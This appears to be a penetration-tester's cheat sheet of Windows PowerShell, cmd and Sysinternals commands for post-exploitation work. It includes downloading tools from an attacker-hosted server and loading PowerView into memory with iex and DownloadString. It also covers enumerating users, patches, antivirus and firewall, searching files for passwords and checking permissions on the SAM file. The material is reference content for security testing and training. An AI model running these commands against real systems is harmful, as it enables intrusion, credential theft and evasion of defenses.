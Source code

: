 # Useful commands with Powershell, cmd and Sysinternals

## Powershell

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file` (works also in cmd)
  ```
  PS C:\Users\users\Desktop> certutil.exe -urlcache -f http://192.168.3.28/powerview.ps1 powerview.ps1
  ****  Online  ****
  CertUtil: -URLCache command completed successfully.
  ```
- `wget http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need -OutFile name-you-want-to-give-the-file`
  ```
  PS C:\Users\user\Desktop> wget http://192.168.3.28/powerview.ps1 -OutFile powerview.ps1
  ```
- `iex (New-Object Net.WebClient).DownloadString('http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need')` will load it in memory without writing it in the disk, we will the be able to run powerview command if we use it to load powerview for instance
  ```
  PS C:\Users\s.chisholm.mayorsec\Desktop> iex (New-Object Net.WebClient).DownloadString('http://192.168.3.28/powerview.ps1')
  ```

### Powershell Remoting

- `Enter-PSSession -ComputerName workstation-01`
- `Enter-PSSession -ComputerName workstation-01 -Credential domain\Username`
- ` Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName workstation-01 -Credential domain\Username` connect to a remote powershell and excute command with ScriptBlock. other command we could do with scriptblock: `ipconfig`, `net user`,...
- `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` List AppLocker rules

### Misc

- `Install-Module ActiveDirectoryModule -ScopeCurrentUser` Install a module without admin rights
- `Get-MpComputerStatus` Check Windows Defender Status
- `Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone` Test AppLocker policy
- `Get-HotFix | ft -AutoSize` display hotfixes
- `Get-WmiObject -Class Win32_Product |  select Name, Version` display installed software
- `gci (Get-ChildItem)` list named pipes

## CMD

### Downloading files

- `certutil.exe -urlcache -f http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need name-you-want-to-give-the-file`
- `curl.exe -o name-you-want-to-give-the-file http://IP-OF-YOUR-WEBSERVER-WHERE-FILES-ARE-HOSTED/file-you-need`

### System Enumeration

- If we want to grep on specific information we can use `findstr`  
  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  
  ```
  c:\>systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" 
  systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
  OS Name:                   Microsoft Windows 7 Enterprise 
  OS Version:                6.1.7600 N/A Build 7600
  System Type:               X86-based PC
  ```
  
- If we want to see patches and update `wmic qfe`
  - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
- List the drives `wmic logicaldisk` `list drives`
- `schtasks` query scheduled task
  - `schtasks /query /fo LIST /v`
- `driverquery` will list installed drivers
- `tasklist /svc` get the list of running processes
- `set` display all environment variables
- `wmic product get name` display installed software
- `icacls c:\Windows\System32\config\SAM` check permissions on the SAM file

### User Enumeration

- `whoami`will give info on the current user
- `whoami /priv` will give info on the current user and their priv
- `whoami /groups` will give info on groups the current user is in
- `net user` or `net users` will list the user on the machine
- `query user` logged in users
- `echo %USERNAME%` current user
- `net user username` will list info about the with the username mentionned
- `net localgroup` `net localgroup groupname` will give info on group
- `qwinsta` or  `query session` other users logged in simultaneously
- `net accounts` Get Password Policy & Other Account Information

### Network Enumeration

- `ipconfig` or `ipconfig /all`
- `arp -a`
- `route print`
- `netstat -ano` list active connections
  - `-a`: Displays all active connections and listening ports on the target system.
  - `-n`: Prevents name resolution. IP Addresses and ports are displayed with numbers instead of attempting to resolves names using DNS.
  - `-o`: Displays the process ID using each listed connection.
  - Any port listed as “LISTENING” that was not discovered with the external port scan can present a potential local service. This is when we might need to use port forwarding to investigate the service.
- Check what service runs on a specific port (in the example we will use 8080
  - `netstat -ano | findstr 8080`  
  ![image](https://user-images.githubusercontent.com/96747355/163686732-6f1b095a-70f0-4a04-a3a5-cc64a988b1e1.png)  
  - From this output we can take the pid and checkout which service it is using tasklist `tasklist | findstr 2164`  
  ![image](https://user-images.githubusercontent.com/96747355/163686766-1aa8da58-8584-4902-9dda-188fba31021f.png)  

### Hunting passwords

- `findstr /si password *.txt` will search for the string "password" in txt files `/si` means it searches in the current directory and all subdirectories (s) and ignore the case (i).
- `findstr /si password *.txt *.ini *.config *.sql` same but also in ini, sql and config files

### AV Enumeration

- `sc query windefend` will show if Defender is running
- `sc queryex type= service` will list all running service
- `netsh advfirewall firewall dump` check for firewall
- `netsh firewall show state` similar older command
- `netsh firewall show config` will show the config of the firewall, useful to see blocked ports and other

## Sysinternals

### Pipelist

[Pipelist](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) is useful to enumerate instances of pipes  
- `pipelist.exe /accepteula` enumerate instances of named pipes.

### Accesschk

[Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) is useful to enumerate permissions  
- `accesschk.exe /accepteula`
- `accesschk.exe -wuvc Everyone *` list service we can write and to which everyone has access
- `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"` List of user groups with read and write privs

## Resources

{% embed url="https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.1" %} Working with wmic {% endembed %}  

